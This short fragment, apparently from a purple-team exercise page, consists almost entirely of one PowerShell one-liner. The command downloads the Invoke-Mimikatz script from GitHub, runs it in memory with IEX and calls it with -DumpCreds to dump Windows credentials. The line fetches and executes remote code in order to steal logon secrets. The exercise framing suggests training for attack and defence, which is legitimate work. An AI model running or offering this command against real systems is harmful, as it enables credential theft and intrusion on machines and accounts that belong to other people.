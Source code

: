 Purple Exercise

powershell IEX (New-Object System.Net.Webclient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds

